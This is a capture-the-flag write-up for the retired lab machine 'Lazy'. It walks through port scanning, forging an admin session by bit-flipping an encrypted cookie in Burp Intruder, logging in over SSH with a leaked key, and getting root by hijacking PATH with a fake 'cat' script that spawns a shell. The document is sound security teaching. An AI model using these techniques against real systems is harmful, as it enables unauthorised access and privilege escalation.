

# Lazy

This is the write-up for the box Lazy that got retired at the 7th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.18    lazy.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/lazy.nmap 10.10.10.18
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: CompanyDev
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

This is what we see on the web page:


When registering an user, the page just says that we are currently logged in as the user we used to register.
Lets examine the cookies by login out first and then login back again and intercept the request with Burpsuite.

On Burpsuite we send the request to the **Sequencer** tab to replay the login request multiple times.


When clicking on _Analyze_ the capture gets summarized and we want to _Copy Tokens_ and put them in a file.



The copied cookies vary from each other which means there is some kind of randomness in creating those.
Assuming these are encrypted strings we will try to flip the bits on a user whose name is similar to _admin_ and by flipping the characters in the cookie we can become admin.

So we register an user with a name close to _admin_ like _bdmin_ and send it to **Burpsuites Intruder** and make sure the position is on the authentication Cookie:


As the Payload we will use the _Bit flipper_.


The responses with the length 1351 all show different user names in the Response like _"gdmin, Idmin, kdmin"_ and so on.
If we wait long enough it will get the result for _admin_ back, too. It has a length of 1499.
> auth:60BZd9dCWwq8hMf9HGyO5SPOBzdZzMVv

Now we can input this cookie into the browser with any plugin, refresh the page and we see an admin panel:


On this page we can download a SSH key.

## Checking SSH (Port 22)

Now we have a SSH key that we can try to login in on the box:
```markdown
chmod 600 mysshkeywithnamemitsos

ssh -i mysshkeywithnamemitsos mitsos@10.10.10.18
```

We can login as the user _mitsos_

## Privilege Escalation

In the home directory of _mitsos_ is a binary file named **backup**. When executing it, it outputs the contents of the _/etc/shadow_ file.
There is also the _peda_ extension for **gdb** which seems to be a hint to debug this binary.
```markdown
gdb ./backup
```
```markdown
gdb-peda$ b main
Breakpoint 1 at 0x8048420
```

After running it we see that it calls _system_ and right before that it loads a variable into ESP which is and argument for _system_.


The command `cat` gets executed from _/bin/cat_. When we create our own **cat** command in a path that gets checked before, we can exploit this:
```markdown
mitsos@LazyClown:~$ which cat
/bin/cat
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

The environment variable **$PATH** looks through every path until it finds the `cat` command. So we will create our own in a path before it reaches the valid one.

The fake `cat` command we create starts a shell:
```bash
#!/bin/sh

/bin/sh
```

Now we modify the environment variable **$PATH** to look in the home folder of _mitsos_ first:
```markdown
export PATH=`pwd`:$PATH
```

If we run _backup_ now, it will start a shell instead of displaying the contents of the /etc/shadow file.
The effective ID on this shell is 0 and thus we are root!
